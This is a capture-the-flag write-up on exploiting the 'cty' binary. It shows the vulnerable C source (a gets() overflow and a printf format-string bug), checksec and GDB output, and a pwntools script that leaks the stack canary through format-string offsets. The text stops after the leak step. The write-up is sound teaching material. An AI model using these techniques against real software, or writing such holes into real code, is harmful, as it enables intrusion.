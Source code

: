 # Problem:
namp scan get the following:   
```
2500/tcp open     rtsserv?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, NULL: 
|_    Warning: this server only sends one line at a time. If you've opened a shell, this may lead to some weird shenanigans until you are able to get a proper shell with netcat.Welcome to the C-Ty! You notice a canary watching over these parts. But can you get past it with the right set of words? Input encoded in hex:
```   
Attached are two files: cty.c and cty (binary)

## Classic BOF with Canary problem
### Run the cty binary:   
```
kali@kali:~/ct-y$ ./cty
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
```    
### Analysis

The code is a simple c code:
``` 
#include <stdio.h>
#include <unistd.h>
#include <string.h>
 
void dumpFlag() {
    puts("The blue key to The Gate is '[key removed]'");
}
 
void runIntoTheCty() {
    puts("Running into the C-Ty...");
    char* args[] = {"/bin/sh", NULL};
    execv("/bin/sh", args);
}
 
int main() {
    char input[256];
    gets(input);
    printf(input);
    puts("");
    gets(input);
    printf(input);
    puts("");
}                      
```    
With pwn we can check the binary **cty**: it is a 64 bit ELF. As you can see, Canary protection is active.    
```
kali@kali:~/ct-y$ pwn checksec cty                                                                                
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With GDB we can see in the main function, the canary is checked:    
```
   0x0000000000401256 <+125>:   call   0x401030 <puts@plt>
   0x000000000040125b <+130>:   mov    eax,0x0
   0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28     //check canary. RDX is the register
   0x000000000040126d <+148>:   je     0x401274 <main+155>
   0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>

   ``` 
As soon as we see the c code, we see a format string in **printf()**, and an overflow buffer in **gets()**.    
### Leak the Canary
We do a python code to see possible outputs of **format strings**      
**%dlx** is used to print out address value

```
#!/usr/bin/env python3
from pwn import *

io = ELF("./cty")
for i in range(50):
  p = io.process(level="error")
  p.sendline("33")
  p.sendline("AAAA %%%d$lx" % i)
  p.recvline()
  print("%d - %s" % (i, p.recvline().strip()))
  p.close()
```
Output is:
```
kali@kali:~/ct-y$ python3 t1.py
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0 - b'AAAA %0$lx'
1 - b'AAAA 6c24312520414141'
2 - b'AAAA 0'
3 - b'AAAA 7fee9f427980'
4 - b'AAAA 7fff84aba680'
5 - b'AAAA 0'
6 - b'AAAA 2436252041414141'
7 - b'AAAA 7f68d200786c'
8 - b'AAAA 0'
9 - b'AAAA 7ffe058d6790'
10 - b'AAAA 7f866c983730'
11 - b'AAAA 7fe96a5b4ac0'
12 - b'AAAA 0'
13 - b'AAAA 0'
14 - b'AAAA 0'
15 - b'AAAA 0'
16 - b'AAAA ffffffff'
17 - b'AAAA 0'
18 - b'AAAA 7ffc83d342a8'
19 - b'AAAA 7f1aa9e29730'
20 - b'AAAA 0'
21 - b'AAAA 0'
22 - b'AAAA 0'
23 - b'AAAA 0'
24 - b'AAAA 0'
25 - b'AAAA 0'
26 - b'AAAA 0'
27 - b'AAAA f0b5ff'
28 - b'AAAA c2'
29 - b'AAAA 7ffefe41cea7'
30 - b'AAAA 7ffd535a3946'
31 - b'AAAA 7f1a482769f5'
32 - b'AAAA 0'
33 - b'AAAA 4012cd'
34 - b'AAAA 0'
35 - b'AAAA 0'
36 - b'AAAA 401280'
37 - b'AAAA 401080'
38 - b'AAAA 7ffc4da218f0'
39 - b'AAAA 369bda5ddbf1bc00'
40 - b'AAAA 401280'
41 - b'AAAA 7fecf9ae4e0b'
42 - b'AAAA 0'
43 - b'AAAA 7ffe78103658'
44 - b'AAAA 100040000'
45 - b'AAAA 4011d9'
46 - b'AAAA 0'
47 - b'AAAA d2d22253bdd7b319'
48 - b'AAAA 401080'
49 - b'AAAA 7ffe0446bea0'
```

